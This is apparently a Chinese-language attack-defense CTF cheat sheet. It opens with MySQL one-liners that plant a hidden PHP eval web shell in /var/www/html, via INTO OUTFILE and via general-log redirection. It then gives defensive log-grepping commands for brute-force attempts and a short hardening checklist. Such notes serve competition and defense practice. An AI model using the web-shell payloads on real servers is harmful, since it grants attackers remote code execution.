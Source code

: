 

##### 一句话导出shell

```mysql
	select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/.a.php'
	set global general_log='on'

```



##### **日志备份获取shell**

```bash
	show global variables like "%genera%";     //查询general_log配置
	set global general_log='on';       //开启general log模式
	SET global general_log_file='/var/www/html/.index.php';  //设置日志文件保存路径
	SELECT '<?php @eval($_GET['cmd']);?>';       //phpinfo()写入日志文件
	set global general_log='off';       //关闭general_log模式
```



#### 查看日志

##### linux

```bash
who
user     
查看的都是 /var/log/utmp
```

##### 查找暴力破解ip

```bash
grep "Failed password for invalid" /var/log/secure | awk '{print $13}'|sort|uniq -c|sort -nr
```

##### 查询暴力破解用户名字典

```bash
grep "Failed password for invalid" /var/log/secure | awk '{print $11}'|sort|uniq -c|sort -nr
```

##### 查看登录成功的用户以及ip

```bash
grep "Accepted" /var/log/secure |awk '{print $0}'|sort|uniq -c|sort -nr
```



#### 思路

1.更改ssh密码 MySQL密码 并备份

2.备份html文件 与 MySQL数据库

3.如果有phpmyadmin 就将限定ip代码写入（能用自己电脑 ，直接上waf（流量监控脚本，文件上传监控脚本））
